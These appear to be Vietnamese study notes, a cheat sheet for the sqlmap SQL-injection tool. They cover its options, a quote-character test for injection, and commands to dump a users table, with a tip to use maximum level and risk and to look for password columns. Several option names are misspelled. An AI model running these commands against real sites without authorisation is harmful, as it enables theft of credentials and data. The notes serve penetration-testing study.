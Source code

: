 # Syntax
```Bash
sqlmap -u "http://example.com/?search=123" <options>
```
- **Các options**:
    - -p seatch : một số URL có nhiều tham số thì cần para này. Nếu không sqlmap sẽ quét hết
    - --batch : bỏ qua các câu hỏi mặc định của SQLMap
    - --curent-db : DB hiện tại
    - --banner : phiên bản SQL
    - --tables :tìm bảng (liệt kê các bảng, nếu không đi kèm DB thì sẽ liệt kê hết)
    > [!important] ⇒ Có thể xem columns từ đây

    - --columns : xem cột, nhưng cần dùng thêm --tables để xác định bảng; có thể là cả -D <tên DB>
    - -p <id> : chỉ định tim payload vào một id cụ thể
    - --user-agent : giả browser để bypass firewall, nhận respond khác từ server (do phía server), …
    - --random-agent
    - --is-dba : check user hiện tại có phải quyền cao nhất không
    - --dbm=mysql : chỉ định loại DB, bỏ qua bước quét
    - --force-sql : buộc SQLMap sử dụng https kể cả lúc nhập vào là http
    - --ignore-redirects : không tự động chuyển hướng khi gặp status code 3xx (SQLMap mặc định tự chuyển)
    
    > [!important] Nếu chưa có para phù hợp thì cần tìm bằng:
    
    - --forms : tự động dò tìm và khai thác các form HTML (có thể 1 số form cần cookie)
    - --crawl=5 : dò các URL liên kết bên trong web
    - --techniqu = U / B / E (Union, Blind, Error-based)
---
# Kiểm tra SLQi
## Cách 1:
```JavaScript
http://example.com/page.php?id=1
```
⇒ Nếu chèn **'** vào thành:
```JavaScript
http://example.com/page.php?id=1'
```
mà có lỗi SQL thì khả năng có SQLi.

## Cách 2:
```Bash
sqlmap -u "domain" --batch --data="search=123"
```
---
# Dump
> Trích xuất dữ liệu từ DB
Các bước tiến hành: --dbs ⇒ --table -D <DB> ⇒ --dump -T <bảng> -D <DB>
```Bash
sqlmap -u "http:example.com/?search=123" -p search -D dic -T users --dump --batch
```
---
# Một ví dụ thực tế:
```Bash
sqlmap -u "https://domain.com/?search=123" --batch --level=5 --risk=3 -D eclip_cars -T users --dump --where="username='Alice'"
```
Kinh nghiệm là nên dùng --level=5 và --risk=3 để tăng khả năng quét.
Khi quét đc DB để tìm tables, xác định tables cần rồi thì tìm columns (username, password, id, ...) rồi hẵn dump.